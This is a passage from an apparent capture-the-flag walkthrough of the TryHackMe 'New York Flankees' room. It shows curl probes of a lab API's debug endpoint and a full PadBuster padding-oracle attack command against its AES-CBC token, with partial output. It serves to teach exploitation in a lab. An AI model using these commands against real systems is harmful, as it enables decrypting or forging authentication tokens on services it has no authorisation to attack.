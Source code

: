 This script appears to make a GET request by submitting a specific payload to the debug endpoint of the API used by the web application. The comments in this script indicate that the payload submitted uses AES encryption with CBC. When we try to access the endpoint with the payload manually we get a *Custom authentication success* message but if we change any value in the payload we get a *Decryption error* error message.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/New York Flankees/Scans/Service]
└─$ curl http://10.10.168.57:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 
Custom authentication success


┌──(pentester㉿kali)-[~/…/Challenge/New York Flankees/Scans/Service]
└─$ curl http://10.10.168.57:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EFI  
Decryption error    
```

A Google search on any attack against AES Cipher Block Chaining mode reveals that this can be vulnerable to Oracle padding attacks.
![](/assets/img/posts/walthrough/tryhackme/2024-10-08-thenewyorkflankees/attack-type.png)

## Exploitation

This [post](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv) explains more about the vulnerability and how it can be exploited. We can use the [PadBuster](https://github.com/AonCyberLabs/PadBuster) tool to exploit this vulnerability. Since we got an error message when we modified a character in the payload we will specify this error message to PadBuster.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/New York Flankees/Scans/Service]
└─$ padbuster http://10.10.168.57:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427
F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 2 -error "Decryption error"

<SNIP>

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 4 *** 

[+] Success: (133/256) [Byte 16]
<SNIP>
[+] Success: (166/256) [Byte 1]

Block 1 Results:
```